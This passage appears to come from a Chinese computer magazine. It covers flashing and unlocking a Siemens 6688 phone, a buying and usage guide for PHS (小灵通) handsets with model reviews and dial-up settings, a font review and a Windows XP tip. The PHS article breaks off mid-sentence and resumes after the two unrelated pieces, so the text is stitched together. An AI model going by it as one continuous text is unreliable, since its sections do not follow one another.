随后进行刷机，运行v-Klay，在原界面选择“打开文件”，将6.0MB的Binary Flash文件写入缓存，再点击“写入记忆体”，短按Red关机键连接。按照115200的速率，一般com口的刷机时间大概是12min左右。当进度条走完，出现“记忆体已经写入对话框”，就表示大功基本告成，新版本已经刷入了。但这时机器还不能直接使用，必须解锁，否则就会出现错误无法开机，因为你刷的是别人的版本，EEP内容与机器原有设置不符。运行Siemens Unlock，在机型处选择Siemens S145，点击“锁（X）”菜单，选择锁→解锁，串号栏不用理他，直接点解锁，短按red关机键，连接成功后稍等几秒，待最后英文字母栏出现OK即表示解锁成功。接下来，就可以开始体验新版本所带来的新功能了。

另外6688吸引人的一点是还能根据自己的需要“打补丁”，进行功能的增加和改变、界面的美化等，补丁的作用就是通过用新数据替代旧数据，包括空数据，来实现功能。至于地址的取得、功能的实现，可以借助另外的工具来实现，我们要做的，就是熟悉功能的机构与使用方法，来实现补丁的作用。刷补丁的方法也是用v-klay工具，打开后，复制补丁代码到空白处，粘贴即可。或者直接打开做好的vkp补丁文件，选择应用补丁，待补丁写入完成即可。除了6688，还有摩托E398等非智能手机也可以进行刷机和打补丁。

### 小灵通也能玩出大花样 小灵通选购及应用指南

文/龚胜

#### 一、小灵通概述

小灵通即无线市话，学名为PAS，是便携式个人无线接入电话系统（Personal Access System）的英文缩写。是中国电信部门在日本PHS（Personal Handy — Phone System）个人移动通信系统基础上改进的一种无线接入技术（图1）。

##### 1. 发展历史

PHS是日本开发的无线通信网络系统，日本人称之为“个人手持电话系统”，于1995年7月开通运营。并成为到目前为止日本国内最主流的无线通信系统。中国的小灵通与日本的PHS渊源很深。1996年，时任浙江省余杭市邮电局局长的徐福新（后被喻为中国“小灵通之父”）偶然看到一本杂志，其中介绍日本在搞移动市话（Personal Handyphone System），问世仅一个月就在东京发展了10万户。这让徐福新感到兴奋，他决定把这个新东西引进到中国来。在徐福新等人推动下，1997年，在美国加州成立的UT斯达康公司和当时的中国邮电部率先在浙江省将日本ARIB负责制定的RCR STD-28空中接口标准引入国内并改进PHS技术，巧妙地将PHS与固定电话程控交换技术融合为一体（就是在数据交换部分仍然采用固定电话程控交换设备，只在无线市话接入部分采用无线技术）成功开发出了适合中国国情的无线市话PAS技术，同年12月，PAS无线市话首次在杭州余杭开通试用，从此“小灵通”在中国正式诞生。

##### 2. 技术特点

无线市话小灵通（PAS Personal Access System）是数字技术高层次发展的产物，采用微蜂窝技术，以无线方式接入固定电话网，利用固定电话的交换设备和号码资源，有效降低了成本。小灵通采用的是先进的数字技术，能提供高质量的通话音质，同时保密性良好，安全可靠，业务处理能力高，不仅能够提供固定电话所具有的各种功能，还能提供各种增值服务。不过“小灵通”业务也是中国信息产业迄今为止最富争议的一项电信业务。业界至今还流传这样一种观点：PHS是国外淘汰的落后技术，不应该在国内发展。但值得庆幸的是“小灵通”拥有广大老百姓的拥护和支持，顽强地取得了市场成功。事实上小灵通具备的一些优势让其拥有了相当规模的用户群和发展空间。下面就具体谈谈其主要优缺点。

“小灵通”主要有如下优点：首先是资费低廉，小灵通在电话程控交换部分采用的是固话程控交换设备，只在移动终端部分采用的是无线技术，使PAS每线成本不到1000元人民币。由于营运维护和建设基站成本低廉，所以这种移动通话技术使用费用也是非常低的，甚至低于普通固话标准。同时小灵通作为固定电话的延伸，很自然采用了彻底单向收费政策。这一点在GSM手机全面单向收费还遥遥无期前，是非常吸引人的卖点。其次是辐射小，小灵通系统采用超微蜂窝基站组成，基站分布密度大，手机与基站间距离比较短导致射频功率损耗低，小灵通手机发射功率只有0.01瓦（10mW），比一般家用无绳电话还要低，基站发射功率也不过500mW。因此不必担心电磁波对人脑的危害，被誉为“绿色通信工具”。手机发射功率小带来的另一个优点就是小灵通手机待机和通话时间要大大长于GSM手机。除了上面两个突出优点外，小灵通还有其他优点，比如小灵通采用了32K ADPCM语音编码，通话清晰度与固定电话相差无几。另外小灵通上网速度可达64K以上，明显快于GPRS。

不过小灵通的缺点也是很突出的。最令人诟病的是信号质量不好。不仅信号盲区较多，而且穿透性不强，在大多数室内信号都相当不好，需靠近窗户才能正常使用。由于网络信号先天不足的原因，拨打小灵通常遇到“无法接通”的提示。二是“小灵通”基站采用的是微蜂窝技术，在移动过程中通话，信号不稳定，会出现声音断续的问题。尽管使用“无缝切换”技术后，这种情况...

## # 字体鉴赏之奥运字体纪念版

◆文/TMG zcy

推荐下载地址：http://www.goodfont.net/down_view.asp?id=666

简介：2007年8月8日那天，正值奥运会倒计时一周年之际，叶根友奥运字体纪念版诞生了。它是由著名书法家、五笔同书世界首创者、连笔空心字吉尼斯纪录保持者叶根友先生亲自书写创作，并由书体坊和中华签名网联合开发而成的。它之所以被称为奥运字体，源于它的设计采用了“中国印·舞动的北京”和“奥运五福娃·北京欢迎您”的理念，并将其运用于字体的设计之中。这款字体是6763个汉字的标准字库，系统而全面，属于GB2312字体的范畴。

在这字体诞生之前，叶根友先生就已经开发出了叶根友空心简体、叶根友钢笔行书、叶根友特隶简体、叶根友毛笔特色简体、叶根友特色空心字体、叶根友毛笔行书、叶根友风帆简体共七套字体，应该说在字体领域已经有了较高的声望。他研发的以上七种字体都在网上进行发布，并提供用户进行免费的下载使用，应该说，受到了网友的广泛好评和欢迎。同时，各大下载站和论坛也都纷纷进行收录和转载。

奥运会的临近使全国人民都沉浸在一种幸福和热情的企盼当中，社会的方方面面也都在为迎接2008奥运会而不懈的努力。叶根友先生也体会到了这一点，在奥运一周年倒计时之际推出了这款奥运字体，它的外形独特美观，处处显示出了对奥运的热情。它的每一个中文汉字都有中国印或奥运吉祥物——五个福娃的形象，并依据中国汉字的特点进行汉字与图案的完美结合。这一字体的点，就用中国印来代替；底横划或者长横以及竖划和四点水就用奥运五福娃来代替，不能不说令人拍案叫绝。响应人人奥运、全民奥运的精神，把字体艺术与奥运结合，这的确是字体领域的一个前所未有的尝试，也更值得我们每个人去尝试。好了，那么我们就先从奥运字体出发吧！

## # 傻博士问答：系统的快速启动工具栏消失

故障现象：Windows XP提供了一个由“IE”、“OE”和“显示桌面”等图标按钮组成的快速启动工具栏，有一天进入系统后，发现该快速启动工具条不见了。

故障分析：该故障是用户无意中关闭了Windows XP的快速启动工具栏造成的，用户只需重新将其打开即可。另外，用户将快速启动工具栏拖到桌面上也会造成它的“失踪”。

解决方法：右击Windows XP任务栏，选择弹出菜单的“工具栏”子菜单中的“快速启动”命令，快速启动工具栏就会重新出现在任务栏上。对于将快速启动工具栏拖到桌面上的情况，只需将它重新拖拽到任务栏中即可。

况有所改善。但是在移动速度超过60公里/小时后，通话质量还是很差的。第三就是不能漫游，由于政策限制，目前“小灵通”基本上只能在本地网信号覆盖范围内使用（个别地区可以在省内漫游）。另外相对GSM手机，小灵通终端种类少，功能较弱。

##### 3. 发展前景

经过十年发展，小灵通在中国应该说开始迎来一个“转折期”，随着GSM手机全面单向收费的临近和3G即将发牌，“小灵通”究竟还能走多远又开始受到人们关注了。因为通信产业中技术创新的排斥作用是难以估量的（寻呼机在中国快速消失就是一个例子）。单纯从技术角度看，小灵通肯定存在着很多先天的不足，但其定位仍是固定电话的延伸而不是移动通信技术，因此有人认为只要固网还存在，“小灵通”就不会消亡。另外只要有效利用中国现有的100万小灵通基站，PHS在3G时代的发展空间还是很大的。业界普遍预测，当电信网通取得正式移动牌照后，小灵通不仅会自然冲破“不能漫游”的政策壁垒，还将能平滑升级为WCDMA或TD-SCDMA。

让我们再将目光放到小灵通的诞生地日本，它们提出了“次世代小灵通”的概念，让PHS超越原老技术，成为一种足以与3G抗衡的高科技新产品。其中有一个最关键的应用就是“次世代小灵通”数据通信能力得到大大提高，最高速度达到了800Kbps，再下一代的PHS还将达到20~30Mbps，远远超过了3G。另外日本对PHS的改造不止于数据传输速度的提高。依托遍布全国的PHS基站，开发了许多新的商业模式。比如在东京街头的自动售贩机中，有许多已经安装了PHS通信芯片，这些机器会自动向总部报告实时销售情况，以便统计及及时向机器中补充新的商品。此外，玩具公司也生产出内置PHS通信芯片的玩具，爷爷奶奶们可以通过这类玩具快速找到出门游玩的小孙孙，小孙孙也会非常开心通过自己的玩具接听爷爷奶奶的话。最后，在医院等一些特殊行业，PHS也因为其固有的辐射低的优势争取了客户。应该说小灵通今后在国内的发展前途还是光明的。

## 一、小灵通选购指南

小灵通一直是低端产品的代名词，长期以来其终端产品价格较低，功能弱，除了个别日本贴牌品，大多数产品基本上只具备通话功能，而随着机卡分离小灵通的推出，小灵通也开始像中高端手机一样有真彩大屏幕、和弦铃声、摄像头，甚至MP3等功能了。

##### 1. 选购要点

小灵通在选购上的基本方法其实与GSM手机没有大的区别。下面重点为大家谈谈在选购小灵通时需要我们特殊注意的要点。

###### (1) 品牌

购买小灵通首先要确定产品品牌。目前生产小灵通的厂商有UT斯达康、英华OKWAP、科盛、华为、中兴、夏新、普天等。建议大家选择国内老牌厂商的产品，技术质量都有保证，而且售后服务也不错。UT斯达康是最先开始在中国推广小灵通的，所以小灵通第一品牌非它莫属。不过英华OKWAP在机卡分离小灵通上占得了先机，产品种类很多，尤其为小灵通注入了很大多媒体的元素，是发展势头最猛的小灵通品牌。当然华为、中兴、夏新等厂商的产品也都不错，大家可根据个人需要选择。另外网上还能买到日本水货二手产品，大多功能强大，性价比很高。不过要注意这些产品都是烧号的小灵通，是否能正常使用不能确定。有些还是日文界面，产品品质无法确定，总之购买这类产品的风险较大。

###### (2) 外形

外形往往是决定我们（尤其是女性朋友）购买一款电子产品的重要因素。现在小灵通早已告别了纯直板、黑白屏的时代，与手机一样直板、翻盖、折叠、滑盖、内置天线等类型的产品层出不穷（图2）。下面谈谈这几种外形的不同特点。

- 直板机型：直到今天小灵通仍是直板机的天下，至少有一半以上的小灵通都是直板机型，外观大方，适用面最广。而且直板机还有制作成本较低，不易损坏等特点。
- 翻盖机型：这类机型最大的特点是小巧美观，但缺点是转轴和排线容易损坏，还有多数翻盖小灵通只有单屏幕，看时间等信息不大方便。但是其外观造型，仍吸引许多女性用户。
- 滑盖机型：滑盖机是近年来手机流行的方向，有翻盖机的小身材，又有直板机的使用方便的优点。方便又有个性，所以深得年轻一代的喜爱。

###### (3) 类型

这是在选购小灵通时，需要我们认真考虑的地方。首先考虑是机卡分离还是烧号机型。现阶段小灵通基本上都是机卡分离的，这样就与普通手机一样，可以随时换卡，随时换机使用，不像过去的产品，换号码和换终端都需要重新烧录。假如拿机卡分离的小灵通到外地使用，只需要购买一张所在地的PIM卡即可使用，就变相地漫游起来了，因此机卡分离机型肯定是我们的首选。但这个问题不是绝对的，我们在购买二手经典产品时，大都是烧号机型，也没有什么不方便的地方。另外现在有些产品是上卡和烧号两用的，使用起来就更方便了。

机卡分离小灵通使用的PIM卡在功能上与SIM卡是类似的。除了起到身份验证作用外，不同容量的PIM卡还能存放数量不等的电话本和短信，还有些带PTK功能的，能方便使用电信的增值业务。

在选购机卡分离小灵通时，要注意机身上的“联盟许可”标签。许可标签的第一行是厂商进网许可证号码，第二行是机子序列号，第三行是设备扰码，这串号码是经过加密的，而且每个机子上的号码是不同的，也是唯一的，如果想查询机子的入网的合法性，可以到“http://www.cfwta.org/”输入第三行设备扰码，查询你的机子是否已经通过这个联盟的认证测试，就可以断定能不能完全支持PIM卡了。

另外在类型选择上，我们还要考虑一下是选择单模小灵通还是GSM+PHS的多模小灵通，这个完全看自己的实际需求了。现在多模小灵通在技术上已经没有什么问题，更多是因为政策原因，使得目前多模小灵通选择面还很窄。

###### (4) 新技术

在选购小灵通时，产品是否支持一些新技术也是需要我们重点关注的。比如一定要支持无缝切换技术，否则在快速移动中基本无法使用。

再比如现在很多小灵通产品支持的灵通无绳、PTK服务、双机对讲、信号增强等技术都很实用，可以在一定程度上弥补小灵通的一些弱点。大家在选购时要重点加以关注。

###### (5) 附加功能

随着科技发展，现在很多小灵通的可玩性已经不逊于普通GSM手机了。因此我们在选购时对小灵通的附加功能也应适当加以关注。

- **娱乐功能**：娱乐功能的强弱是很多学生朋友选购小灵通时关注的焦点，主要与屏幕类型、铃声类型（和弦数）、是否有MP3、MP4播放、收音机功能等有关。其他还有内置游戏的多少，是否支持JAVA扩展等也值得注意。
- **商务功能**：商务功能强弱，则是商务人士选择小灵通时关心的重点。像是否有大容量电话本、输入法好用与否、是否具有循环闹钟、记事本、日程安排等功能。对于有特殊需要的用户，可能还会关心是否有定位、上网功能、是否支持IP电话一键输入和长途锁定等功能。

##### DIY和弦铃声

大多数小灵通都支持和弦铃声，但不一定能找到适合我们的铃声。这里为大家介绍一下和弦铃声的DIY方法（图3）。建议大家使用Psmplay这款软件。运行后打开一首你喜欢的MIDI/MMF格式的文件，接下来可以进行以下操作：

- **音量调节**：试听时点一或+调节，正常为100%，可适当增加音量，但最好不要超过150%，太大容易损害手机的喇叭。另外我们还可以调节音调和音速。
- **铃声截取**：如果一首铃声你感觉太长，可取其中节段，选择转换范围即可。
- **铃声加振动**：首先将文件转换为SMAF格式（J-SKY），再在弹出的振动项上打钩即可，不过不是所有手机都支持。
- **减小音轨**：这是很有意义的编辑方法，如果你觉得一首铃声中的鼓声或其他声音太嘈杂，可把其去掉。在Psmplay下方有1～16个音轨，前面有钩钩，把你不喜欢的音轨去掉，再转换，下到手机上就没有你不想听到的声音了。

除了Psmplay，还有一款编辑MIDI格式铃声的工具软件：Midisoft Studio LE，功能和使用方法都差不多，也能让我们随心所欲地处理铃声，比如可以剪切铃声等。

##### 2. 经典小灵通介绍

目前国内小灵通产品比以前丰富了许多，但是新产品推出速度还是明显比GSM手机慢很多，总的产品种类也远不及GSM手机。下面为大家介绍一些有特点的小灵通机型（并非是最新机型），供各位选购时参考。

###### (1) 商务机型

**朗讯PS900(中兴 V91)**
在国内销售的朗讯PS900以及中兴V91其实都是京瓷AH-K3001V的贴牌机（图4）。算得上是国内烧号机型中功能最强大的一款。这款小灵通采用了2.2英寸、240×320分辨率、26万种显示色彩的高品质TFT屏幕，显示效果相当出色。32和弦的MIDI铃声，还支持DXM真人真唱格式，并内置了一颗11万像素的CMOS摄像头。

网络上支持无缝切换技术，信号很好。这款机子最有特点的地方在于超强的网络功能。内置Opera浏览器，可用手机直接上WWW网，并支持POP3/SMTP电子邮箱的收发。数据传输方面，它采用了USB连接线，不仅可方便地传输图铃，更可以在计算机端通过手机拨号上网，实现无线上网功能。将其列为国内小灵通上网强机之首完全是名至实归的。

**斯达康718/728**
在国内比较常见的另一款小灵通强机就是源自三洋 J95的斯达康718（图5）。这款折叠手机曾是高档小灵通的代表产品。其64K色的TFT屏幕显示品质非常好，机体做工精致，手感很顺。支持动感和弦和真人电子音铃声。其上网功能也非常强劲，除了可以通过“小灵猫”连接电脑上网（64Kbs），手机内置的MiMi拇指情报查询和邮件收发功能也非常强大。另外这款机子还有两个比较特别的实用功能。一是“WALKIE TALKIE”无线对讲功能，两台U718可以在100公尺内直接对讲。二是具有强大的自动答录机功能，可以通过预先设定，使手机在无人应答或不方便接听时自动播放录音，并可进行留言录制，使用户不会错过任何一个电话，这对于单向收费的小灵通而言此功能非常实用。

另外作为UT718的升级产品，UT斯达康UT728采用双彩屏设计，内置11万像素CCD摄像头，加入了T9智能联想输入法，功能又比718进化了很多（图6）。

**UT660**
上面两款上网功能很强的机子可惜都是烧号机，已经退出了主流市场。现在基本只能买二手产品了。这里再为大家介绍一款机卡分离机型UT660，它也具备了很强的上网功能。

UT660是一款滑盖彩屏和弦无线上网机卡分离的机型。支持无缝切换技术，UT660几乎囊括了当时小灵通产品所有流行元素，不过其糟糕的滑盖手感、素质一般的屏幕、晦涩的上网设置也限制了UT660进一步发挥。它采用的是WAP2.0协议，采用内置的NFbrowser浏览器拨号上网。可浏览WAP网站和WWW网站，但是受限于128×128像素的屏幕，较适合浏览WAP网站，可下载任何可浏览网站上的图铃，支持邮件收发。

在商务功能上，UT660特别具有短信息加密功能，用户可以根据自己的情况对短信进行加密，很好地保护了个人的隐私。

**INJOY M300**
INJOY M300是UT斯达康推出一款商务智能小灵通（图7），是全球第一台机卡分离的智能小灵通，在配置上Injoy M300采用400MHz Samsung 2440 ARM9处理器，其拥有128MB Flash RAM，64MB SDRAM，搭配65536色 TFTLCD，支持SD/MMC存储卡，支持红外、USB等诸多通信接口。配有1440MAH电池，还搭配了UTStarCOM AM300模块进行通信，支持64K上网。该机预装Microsoft Windows MobileTM 2003 for Pocket PC SE，其强大功能就不用赘述了。该机还特别集成了PPC拨号软件，集成在 INJOY 掌上电脑中，可以实现通话短信、上网等功能的拨号软件。可惜这款小灵通并未正式进入国内市场。

**夏普 W–ZERO3[es]**
夏普推出的高清VGA屏幕PDA小灵通W–ZERO3[es]无疑是目前功能最强大的小灵通产品（图8）。采用Windows Mobile5.0操作系统，搭载夏普最新ASV技术，采用集成双键盘操作方式。搭配一颗130万像素的摄像头，Intel PXA270 416 MHz 的处理器，64MB的RAM和128MB ROM，并内置了Wi-Fi模块。该款产品采用侧滑盖设计，屏幕下面的键盘是标准功能键盘，而机身下面滑盖部分则是一个QWERTY键盘，便于用户的操作。配备了一块2.8英寸VGA（640×480像素分辨率）屏幕，显示效果逼真细腻。当然喜欢这款机子的朋友只能通过网络或到日本购买了。

###### (2) 娱乐机型

**英华OKWAP 818**
可播放MP3音乐的GSM手机比比皆是，但带MP3功能的小灵通还不多见。英华OKWAP 818被称为“音乐精灵”小灵通。OK818采用了直板造型设计，小巧轻便，而且材质和做工都很好，屏幕采用的是白底黑字的冷光屏，分辨率是96×64像素。OK818是国内第一款内置了MP3播放器的小灵通，有128MB/256MB两种容量可供选择，基本上可以满足日常的音乐欣赏需求。具有无缝切换功能，信号不差，其他基本功能也都具备，而且还有百米内免费对讲机功能，目前价格在700元左右，应该说是一款非常实用的小灵通。

**UT斯达康 UT190**
这也是一款小巧实用的小灵通机型。体积为103.9mm×42.5mm×17.6mm，重量仅75克。有丰富的情景模式可选择，来电时可一键静音，一键进入会议模式。通信功能上，PTK服务、灵通无绳、无缝切换都被支持。另外同时支持PIM卡和烧号方式。预置了“灵通无绳”功能，支持防盗号、自动开关机、关机闹铃，懒人闹钟、万年历、定位等实用功能。
这款小灵通终端最大的卖点在于内置了调频立体声收音机，陡然让其娱乐功能得以增强，是目前大陆少数两款内置了收音机功能的小灵通产品。参考报价仅500来元，应该说还是比较实用的。

**华为A736**
华为小灵通A736采用折叠机型，机体小巧，尺寸在83mm×44mm×20mm左右，重量为73克（图9）。屏幕采用的是4096色STN屏，分辨率只有102×80像素。A736内有短信、铃声设置、通话记录、电话簿、游戏、系统设置等选项，并有调频立体声收音功能，话机可以预存10个电台，在信号强的地方能非常清晰收听。A736提供了六款趣味游戏，有俄罗斯方块、五子棋、跳高、送蛋、黑白棋、炸弹超人。该机是一款不错的娱乐小灵通。

此外对讲功能也是A736很有价值的扩展，只要拥有两部同型号的机型，就能实现对讲。使用时将两部话机的待机模式设为“公共/对讲”，并设好群组，一部设为主机，一部设为副机，设定完毕拨打任意一方的群组号码即可实现对讲。这种对讲功能不同于部分GSM手机“一键通”（PTT）的半双工，该机的对讲是全双工运行，主副机之间能同时发送、接收语音。另外其内置了“小灵猫”，与电脑相连，通过话机可以拨号上网，但传输速率最高仅为32Kbps。

**英华OKWAP 988**
这款小灵通无疑是目前娱乐功能最完善的产品。不仅支持MP3和MP4播放，还是首款支持JAVA扩展的小灵通机型。
OKWAP OK988体积小巧，94mm×49.5mm×17.6mm，重量仅77克。屏幕为65536色TFT彩色触摸屏幕；176×220像素，支持全屏手写识别功能。网络上支持灵通无绳和高速无缝切换功能。支持播放AVI、3GP、MP4等格式的视频文件；内置功能完善的MP3音乐播放器，支持MP3、WMA、WAV等音乐格式，支持歌词同步显示，支持EQ设置包括摇滚、爵士、古典、流行、自定义。这款小灵通还特别内置了英语学习机，英文随身学，不仅拥有英汉词典和汉语词典，同时具备单词背记功能，包括单词初学、英汉背记、汉英背记三个部分。
当然OKWAP 988最大亮点在于支持Java扩展，使其可玩性大大增强。此机可使用内存为196MB。内置130万像素摄像头。

###### (3) 双模机型

前面谈到小灵通是一种优缺点都很明显的移动通信技术，在享受低资费和单向收费的同时，也得忍受其信号不佳的困扰。因此目前左手拿着小灵通，右手拿着GSM手机的“双枪”人士还不少。PHS+GSM的双模手机诞生就是很自然的事。下面为大家介绍几款代表产品。

**UT818/G20**
UT818以其强大的双模同时待机功能，赢得了使用者好评。UT818是硬件双模、双模同时待机，真正是双模产品。UT818有四种待机模式，可用G/P一键切换，下面详细介绍一下这四种模式的具体情况。

| 模式 | 待机状态 | 默认主叫 | 按G/P键后主叫 | 说明 |
| :--- | :--- | :--- | :--- | :--- |
| A | GSM/PAS | GSM | PAS | GSM/PAS同时待机、被叫 |
| B | PAS/GSM | PAS | GSM | PAS/GSM同时待机、被叫 |
| C | 仅PAS | PAS | - | GSM关闭，可用呼叫转移实现双模 |
| D | 仅GSM | GSM | - | PAS关闭，可用呼叫转移实现双模 |

UT G20这款双模机的基本功能与UT818差不多。但在硬件性能上要更为强大一些。

**三洋 G1000**
三洋G1000是一款比较常见的PHS + GSM双模手机。内外屏均采用65536色TFT屏幕，内屏分辨率为120×144像素，色彩不错，显示清晰。铃音方面，G1000支持32和弦，而且其音量较大，支持下载铃声和自录铃声。G1000具有500组电话簿，且支持GPRS、世界时间、计算器等功能。
作为一款双模手机，G1000同时支持GSM 1800MHz和PHS 1900MHz，用户只需在手机中插入一般的GSM SIM卡，就能享受一机两号的便利。G1000也做到了PHS、GSM号码同时待机，而且可以在拨打电话的时候，优先选择资费较低的PHS网络，当小灵通信号不强时，可以自动切换到GSM网络。

**OKWAP ok678**
作为小灵通最活跃的终端生产商之一，英华达在今年推出了多款双模机。ok678使用26万色TFT彩色屏幕，176×220像素，2.2英寸。支持全屏手写功能，同时具备较强的娱乐功能，支持MP3/MP4播放。内存容量为128MB，内置130万像素摄像头。可进行有声视频拍摄。网络上支持WAP上网、PTK服务、灵通无绳等。话机通信录也很强大，支持1000条×7项；支持关键字查找，可以对姓名、电话号码等信息进行搜索；支持拼音首字母快速定位；名片式电话本，包括姓名、3个电话号码、个性铃声、群组；支持手机电话簿和SIM卡、PIM卡三向复制。

#### 三、小灵通应用技巧

绝大多数小灵通用户使用最多的都是简单的通话功能，对于小灵通许多好玩、实用的新功能了解还不多。如果你是小灵通用户中的一员，在本文最后就请跟着我一起来看看小灵通的应用技巧吧。

##### 1. 上网功能详解

小灵通上网是其最有实用价值的增值应用之一。小灵通上网分为WiWi业务 (Wireless information wireless internet) 和MiMi业务两大类，通常WiWi业务是电脑通过小灵通网络上网，而MiMi业务是直接在小灵通终端上实现上网功能，其中各自又有不同的具体实现方式。下面我详细谈谈各种上网方法的具体情况。

###### (1) 使用小灵通终端上网

使用小灵通终端上网，主要有三种方式: MiMi(C_MODE)、WAP、HTML。下面具体谈谈它们的应用。

**MIMI(CMODE)**
MIMI(C_MODE)是日本发明的通过PHS手机实现网络功能的技术 (NTTDoCoMo公司I-mode无线服务模式，图10)，类似于GSM手机WAP上网功能。能为客户提供高速、稳定的网络连接，方便快捷的操作，以及丰富的信息查询和邮件服务，其主要特点有: 特有@MENU主菜单，上网步骤简单，不用记忆，方便快捷。直接在线连接，不需要外接任何其他设备，信息内容丰富。支持PHS用户直接通过手机终端收发邮件、浏览网站、下载音乐、接收图片等。MiMi其实是三洋/UT自己的一个封闭协议，只能浏览运营商定制的MiMi网站，自由度较差。支持该业务的机型主要有UTS718-U、UTS728、UTS618等几款。下面以笔者使用的UTS718-U为例谈谈MiMi的具体使用方法。

先看看如何访问拇指信息(MiMi)，改变预设设定 → 进入“增值服务”画面 → 设定“拇指信息正文界面”，然后按F键进入“基本功能”画面 → “特别功能”，然后设置“位置信息”。然后在待机画面下，按OK键，进入“增值服务”选项 → 选择“拇指信息”，按OK键 → 进入文本输入页面→ 输入地址 (@MENU) → 即可进入拇指信息(MiMi)主页 (图11、图12)。另外注意要事先设定中心号码，按OK键进入“增值服务”画面，选择“MiMi设定”并按OK键进入，进入“中心号码”进行设置。具体号码请咨询本地运营商。

再谈谈“灵通邮件”收发，使用“小灵通”在线注册成功后，你将获得一个形如XXX@ipas.sc.cninfo.net的免费电子邮箱，邮箱大小为1MB (UTS708-SY+)或5MB (UTS718-U)。具体方法按菜单提示操作即可，这里就不细谈了。通过邮件功能我们可以在电脑上用Foxmail等软件向小灵通发送图铃等各种文件 (图13)。

**WAP**
WAP是GSM手机最常见的一种上网方式。其实有个别小灵通也支持这种方式。比如前面介绍的UT660。其上网设置比较麻烦，在设置之前首先要做几件事:
首先搞清楚当地电信/网通的小灵通上网接入号码以及用户名、密码。如果不清楚可以打10000/10060咨询。然后上网找几个能用的WAP代理服务器。进入拨号网络配置，选择“配置1”。配置名称: 任意，接入号码: 16300##4。用户名称/密码: 16300。DNS: 自动获取。自动断开时间: 最大值1800秒。
接着进行WAP账号配置。进入功能表 → 设置 → 互联网业务设置 → WAP账号。可以配置4个WAP账号，其实也就是对应4个代理服务器。WAP账号名称: WAP。WAP网关IP地址: 任意填一个准备好的免费代理。WAP网关端口: 就是上面填的服务器的端口。WAP用户/密码: 16300。选择网络配置: 把第一步配好的网络配置在这里选上，这样拨号设置就和WAP账号关联起来了。最后在待机画面下直接按“e”键，拨号完成后进入功能表→浏览即可上网。

浏览→转到网页→输入网址即可。普通WWW网站也是可以上的，不过因为该手机硬件配置太弱，浏览起来会有些问题，还是访问WAP网站比较合适。

### HTML

直接访问HTML网站是在小灵通终端上最强的一种上网方式。如果使用智能手机是最合适的。不过目前国内尚没有类似夏普W-ZERO3的智能小灵通，因此只有前面介绍的朗讯PS900和中兴V91小灵通可以较为完善地访问HTML网站。这两款机子的硬件功能很强大，分辨率为320×240像素的26万色TFT屏幕即使在今天也不算落后。具体上网方式是采用内带的Opera浏览器，通过内置的Modem上网。采用标准HTTP协议，可浏览任何网站，可下载支持格式的图铃，支持邮件收发。这两款机子也被称为“网络巡洋舰”。

另外OKWAP英华达系列K728的上网方式是采用内置小灵猫，拨号连接到厂商的网页。只能浏览一个网页，完全没有自由度，当然也不需任何设置，可下载该网站上的图铃，不支持邮件收发。

###### （2）电脑通过小灵通网络上网

小灵通网络支持高速无线数据业务即（WiWi），通过专用数据线（小灵猫）等硬件设备，连接电脑和小灵通终端，即可用电脑进行无线上网冲浪。最高速率可达64K（今后还将提升），实际使用效果超过了GPRS等上网方式，是目前速度最快的无线上网技术之一。

电脑通过小灵通网络上网配合不同的硬件组合有下面几种方式：小灵猫+小灵通+PC、小灵通+PC、PC+灵通卡、耳机线+小灵通+PC（Modem），如图14、图15、图16。其中最常用的是小灵猫+小灵通+PC，下面就详细谈谈该方式的具体情况。

首先，要确认你的小灵通有数据接口，通常UT的产品大多有数据接口，其中708-SY/SY+、708-UT88、UT618/U+、718-U/U+机型同时支持32KBps和64KBps两种速率。其次要了解你的机型和哪种型号的小灵猫搭配。和普通固定电话上网一样，WiWi的上网也需要一个被称为“小灵猫”的设备。其实小灵猫就是小灵通与电脑相连接数据线，最常见的小灵猫有UT斯达康公司的USB-64D/USB-D1/D2等，兼容性和稳定性最好，但价格较高，另外还有一些第三方的产品，如ML6750小灵猫，价格十分便宜。这些数据线通常只能用于烧号的小灵通产品。机卡分离机型建议大家选择DC200这款数据线（图17），它提供更丰富的功能，其特点是小灵猫、数据线一体化。在UT115、UT228、UT611等机型上，可以提供64K的无线上网功能。同时，也可以通过DC200来传电话本、铃声、图片等。

准备好硬件后我们就可以开始连接硬件和安装驱动程序了。连接比较简单，无论是电脑一端的USB接口还是小灵通一端的DDI（或NTT）接口都比较好连，且都是单向接口，插反了根本就插不进。小灵猫和电脑连好以后，电脑会自动弹出“发现新硬件”窗口，然后单击“下一步”，选“搜索设备的最新驱动程序”项，再单击“下一步”，选择“指定位置”项，指向驱动程序所在目录，随后一直点“下一步”就可以了，如果提示“没有数字签名”，也不必理会。安装完成后即可在“调制解调器”中看到安装好的小灵猫设备，如UTStarcom DC200 Modem。再接下来就是设置拨号连接，这时只要在电脑上建立一个新的拨号连接，将拨号的调制解调器选择为小灵猫的连接。然后在所建立的拨号连接中输入16300##4（对应64K）或16300##3（对应32K），用户名和密码输入163即可（图18）。整个拨号过程十分简单而且快速，和平常使用固定电话拨号上网的流程基本是一样的（图19），而且通过小灵通拨号上网的话感觉连接速度比固定电话的连接速度还要更快一些。至于大家关心的上网费用是0.07元/分钟(4.2元/小时)，应该说偶尔用用还是可以接受的。

笔者已经通过小灵猫无线上网较长时间，总体感觉甚是方便，和GPRS无线上网相比，速度明显要快，用FTP下载速度平均能达到7kb/s。但是因为小灵通信号不理想，上网时对于环境要求比较严格，信号较差的地方连接比较困难，会频繁掉线。也不能在快速移动时使用，这一点就比不上GPRS了。

最后为大家简单谈谈其他几种上网方式，笔记本和PDA用户可以配合专用的无线网卡（小灵通掌上e卡、Compact flash type II接口)，它内置了RF收发器，无需连接小灵通直接拨号上网，只要将PAS掌上e卡插入笔记本（通过转接卡）或PDA，就可以自由自在进行网上浏览或收发E-mail。注意PAS掌上e卡相当于一个简化的小灵通终端，正常使用前需烧号。PAS耳机接口线是一款应用最简单的数据设备，只要将小灵通耳机孔与电脑Modem接口连接，就可以通过16300拨号上网，不过速度只能达到14.4Kbps。而电脑通过连接小灵通终端直接上网是最方便的。但目前只有PS900/V91支持，它们内置了“小灵猫”Modem，只需用标准USB数据线连接PC，再安装好相关驱动后就能拨号上网了。

## 2.用好小灵通的增值业务

从网络端来看小灵通增值业务还是不少的。各地提供的相关增值业务并不相同，下面介绍的业务以笔者所在的成都地区为例。其他地区具体情况请咨询当地客服。

###### (1) 程控功能

